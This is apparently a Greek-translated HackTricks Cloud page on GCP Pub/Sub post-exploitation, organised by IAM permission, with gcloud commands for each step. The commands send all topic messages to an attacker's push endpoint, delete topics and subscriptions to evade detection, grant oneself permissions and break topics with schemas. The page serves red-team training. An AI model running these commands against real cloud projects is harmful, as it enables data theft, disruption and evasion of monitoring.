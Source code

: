 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Για περισσότερες πληροφορίες σχετικά με το Pub/Sub, ελέγξτε την παρακάτω σελίδα:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Δημοσιεύστε ένα μήνυμα σε ένα θέμα, χρήσιμο για **να στείλετε απροσδόκητα δεδομένα** και να ενεργοποιήσετε απροσδόκητες λειτουργίες ή να εκμεταλλευτείτε ευπάθειες:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Χρήσιμο για να αποτρέψει μια συνδρομή από το να λαμβάνει μηνύματα, ίσως για να αποφευχθεί η ανίχνευση.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Χρήσιμο για να αποτρέψει μια συνδρομή από το να λαμβάνει μηνύματα, ίσως για να αποφευχθεί η ανίχνευση.\
Είναι δυνατόν να διαγραφεί ένα θέμα ακόμη και με συνδρομές συνδεδεμένες σε αυτό.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Χρησιμοποιήστε αυτήν την άδεια για να ενημερώσετε κάποιες ρυθμίσεις του θέματος για να το διαταράξετε, όπως `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Δώστε στον εαυτό σας άδεια να εκτελέσει οποιαδήποτε από τις προηγούμενες επιθέσεις.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Αποκτήστε όλα τα μηνύματα σε έναν διακομιστή ιστού:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Δημιουργήστε μια συνδρομή και χρησιμοποιήστε την για να **τραβήξετε μηνύματα**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Η διαγραφή μιας συνδρομής** θα μπορούσε να είναι χρήσιμη για να διαταράξει ένα σύστημα επεξεργασίας καταγραφών ή κάτι παρόμοιο:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Χρησιμοποιήστε αυτήν την άδεια για να ενημερώσετε κάποιες ρυθμίσεις ώστε τα μηνύματα να αποθηκεύονται σε ένα μέρος που μπορείτε να έχετε πρόσβαση (URL, Big Query table, Bucket) ή απλώς για να το διαταράξετε.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Δώστε στον εαυτό σας τις άδειες που χρειάζεστε για να εκτελέσετε οποιαδήποτε από τις προηγουμένως σχολιασμένες επιθέσεις.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Επιτεθείτε σε ένα σχήμα σε ένα θέμα ώστε τα μηνύματα να μην το πληρούν και επομένως το θέμα να διαταραχθεί.\
Αν δεν υπάρχουν σχήματα, ίσως χρειαστεί να δημιουργήσετε ένα.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Αυτό μπορεί να φαίνεται σαν να διαγράφετε ένα σχήμα, αλλά θα είστε σε θέση να στείλετε μηνύματα που δεν πληρούν το σχήμα. Ωστόσο, καθώς το σχήμα θα διαγραφεί, κανένα μήνυμα δεν θα εισέλθει πραγματικά μέσα στο θέμα. Έτσι, αυτό είναι **ΑΧΡΗΣΤΟ**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Δώστε στον εαυτό σας τις άδειες που χρειάζεστε για να εκτελέσετε οποιαδήποτε από τις προηγουμένως σχολιασμένες επιθέσεις.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Αυτό θα δημιουργήσει ένα στιγμιότυπο όλων των μηνυμάτων που δεν έχουν επιβεβαιωθεί και θα τα επιστρέψει στη συνδρομή. Όχι πολύ χρήσιμο για έναν επιτιθέμενο, αλλά εδώ είναι:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
